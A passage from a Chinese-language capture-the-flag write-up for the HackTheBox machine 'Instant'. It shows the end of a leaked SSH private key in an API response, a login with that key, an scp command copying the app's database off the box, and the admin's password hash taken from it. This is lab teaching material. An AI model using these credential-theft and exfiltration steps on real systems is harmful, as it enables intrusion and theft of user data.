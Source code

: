 ```
    "n90GYFZoYuRerYOQjdGOOCJ4D/SkIpv0qqPQNulejh7DuHKiohmK8S59uMPMzgzQ4BRW0G\n",
    "HwDs1CAcoWDnh7yhGK6lZM3950r1A/RPwt9FcvWfEoQqwvCV37L7YJJ7rDWlTa06qHMRMP\n",
    "5VNy/4CNnMdXALx0OMVNNoY1wPTAb0x/Pgvm24KcQn/7WCms865is11BwYYPaig5F5Zo1r\n",
    "bhd6Uh7ofGRW/5AAAAEXNoaXJvaGlnZUBpbnN0YW50AQ==\n",
    "-----END OPENSSH PRIVATE KEY-----\n"
  ],
  "Status": 201
}
```

格式化一下之后，把密钥的权限设置为`600`，然后使用`ssh`登录即可获取到`User`

![](./images/image-144.png)

## Privilege Escalation

发现一个数据库文件

![](./images/image-145.png)

因为没有`nc`，那么使用`scp`进行远程下载文件

```
[root@kali] /home/kali/Instant  
❯ scp -i shirohige_key shirohige@instant.htb:/home/shirohige/projects/mywallet/Instant-Api/mywallet/instance/instant.db ./  
```

得到admin的密码hash

```
pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978
```
